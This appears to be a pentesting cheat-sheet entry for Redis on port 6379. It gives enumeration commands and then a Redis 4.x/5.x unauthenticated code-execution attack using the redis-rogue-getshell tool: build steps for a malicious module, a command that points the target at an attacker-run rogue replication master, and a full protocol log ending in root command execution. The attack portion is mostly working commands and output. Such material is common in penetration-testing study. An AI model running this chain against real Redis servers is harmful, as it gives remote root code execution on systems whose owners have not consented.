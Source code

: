# Redis 6379

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

## Enumeration

``` bash
nmap --script redis-info -sV -p 6379 <IP>
```

``` bash
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

## Redis 4.x / 5.x - Unauthenticated Code Execution

[https://github.com/vulhub/redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)

``` bash
cd RedisModulesSDK/exp/
sudo make
cd RedisModulesSDK/
sudo make
```

``` bash
$ sudo python3 redis-master.py -r target -p 6379 -L myip -P 6379 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\nip\r\n$4\r\n6379\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'*1\r\n$4\r\nPING\r\n'
>> receive data: b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
>> receive data: b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
>> receive data: b'*3\r\n$5\r\nPSYNC\r\n$40\r\n53c8ubb260c5a95b8f9ecc4701a957edb7236d44\r\n$1\r\n1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$40\r\neuid=0(root) gid=0(root) groups=0(root)\n\r\n'
euid=0(root) gid=0(root) groups=0(root)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```